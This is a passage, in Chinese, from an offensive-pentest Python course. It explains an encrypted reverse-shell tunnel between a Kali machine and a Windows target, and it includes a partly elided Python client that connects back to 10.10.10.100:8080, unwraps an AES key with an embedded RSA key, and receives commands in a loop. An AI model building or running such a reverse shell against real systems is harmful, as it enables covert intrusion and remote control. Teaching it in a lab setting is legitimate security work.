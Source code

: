 在目标端，并且在进入无限循环之前，我们将解密从 Kali 机器接收到的密钥和计数器；我们将使用我们的私钥进行加密。然后，我们将它们存储在一个全局变量中，这个变量将用于 AES 加密。同样，这个操作也会在进入无限循环之前完成。我们的私钥的定义在一个名为`GET_AES_KEY()`的函数中。所以，在此时，我们获得了密钥和`counter`值，正如我所说，我们将使用它们进行 AES 加密。因此，encrypt 函数和 decrypt 函数用于保护我们将在 Kali 和 Windows 机器之间来回传输的命令。现在，一旦我们进入无限循环，我们将使用 AES 的流模式来保护我们的隧道：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# Download Pycrypto for Windows - pycrypto 2.6 for win32 py 2.7
# http://www.voidspace.org.uk/python/modules.shtml#pycrypto

# Download Pycrypto source
# https://pypi.python.org/pypi/pycrypto
# For Kali, after extract the tar file, invoke "python setup.py install"

# Hybrid - Client - TCP Reverse Shell

import socket 
import subprocess 

from Crypto.PublicKey import RSA
from Crypto.Cipher import AES

def GET_AES_KEY(KEY):
    privatekey = """-----BEGIN RSA PRIVATE KEY-----
...
-----END RSA PRIVATE KEY-----"""

    decryptor = RSA.importKey(privatekey)
    AES_Key = decryptor.decrypt(KEY) 
    return AES_Key
...
def connect():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    s.connect(('10.10.10.100', 8080))
    global key, counter
    x = s.recv(1024)
    key = GET_AES_KEY( x )
    print "Generated AES Key " + str(key)
    y = s.recv(1024)
    counter = GET_AES_KEY( y )
     while True: 
        command = decrypt(s.recv(1024))
        print ' We received: ' + command

...
```

现在，让我们运行脚本，先从 Kali 端开始，然后是 Windows 端。你会注意到，一旦我们启动目标，Kali 机器上会生成一个随机的 AES 密钥，然后将其传输到目标端。

如果我们打开 Wireshark，右键点击任何一个 IP 地址并选择“Follow TCP Stream”，我们可以看到 AES 密钥在经过目标的公钥加密后成功传输。
